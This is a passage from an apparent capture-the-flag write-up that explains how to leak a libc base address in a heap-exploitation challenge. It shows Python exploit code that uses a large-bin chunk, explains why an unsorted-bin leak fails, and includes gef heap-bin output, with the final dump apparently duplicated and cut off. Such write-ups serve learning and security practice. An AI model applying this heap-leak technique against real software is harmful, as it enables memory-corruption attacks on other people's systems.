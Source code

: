 i am going to explain what ``alpha()`` and ``decrypt()`` functions does later on .

#### Libc base leaking : 
```python
    add(0, 0x428, b"A"*8)
    add(1 ,0x18, b"B"*8)
    freeze(0)
    free(0)
    add(2, 0x438, b"E" * 8)
    show(0)
    print(p.recvline())
    print(p.recvline())
    libc_base = u64(p.recvline().strip(b"\n").ljust(8,b"\x00")) - 0x1e3ff0
    print(hex(libc_base))
```
here i allocated a big chunk so it goes beyong the tcache bin size range so i can get a libc pointer.
chunk with index 1 is for preventing consolidation. freeing the **index 0 chunk** then i add an another chunk which is bigger than the first one to push the first chunk into the large bin. So generally in classic heap exploitation challenges we use unsorted bin to leak libc , in this case if we use unsorted bin it's going to be a dead end since the address of the **head of unsorted bin** in ``main_arena`` contains a ``null byte`` ,  the function **show a bloc** uses ``puts`` to show the content of a bloc and ``puts`` stops in a ``null byte`` so we have to figure out another way to leak the libc. i choose ``large bin`` , ``small bin`` also may works (i didn't try it). so now our heap state is like this.

```
gef➤  heap bins
───────────────────────────────────────────────────────────────────────────────────────────────────────── Tcachebins for thread 1 ─────────────────────────────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=63, size=0x410, count=1] ←  Chunk(addr=0x563e88fbc2a0, size=0x410, flags=PREV_INUSE) 
────────────────────────────────────────────────────────────────────────────────────────────────── Fastbins for arena at 0x7fc631bf2ba0 ──────────────────────────────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
──────────────────────────────────────────────────────────────────────────────────────────────── Unsorted Bin for arena at 0x7fc631bf2ba0 ────────────────────────────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in unsorted bin.
───────────────────────────────────────────────────────────────────────────────────────────────── Small Bins for arena at 0x7fc631bf2ba0 ─────────────────────────────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────────────────────────────────────────────────────────────────────────────────────── Large Bins for arena at 0x7fc631bf2ba0 ─────────────────────────────────────────────────────────────────────────────────────────────────
[+] large_bins[63]: fw=0x563e88fbc6a0, bk=0x563e88fbc6a0
 →   Chunk(addr=0x563e88fbc6b0, size=0x430, flags=PREV_INUSE)
[+] Found 1 chunks in 1 large non-empty bins.
gef➤  heap bins
───────────────────────────────────────────────────────────────────────────────────────────────────────── Tcachebins for thread 1 ─────────────────────────────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=63, size=0x410, count=1] ←  Chunk(addr=0x563e88fbc2a0, size=0x410, flags=PREV_INUSE) 
```
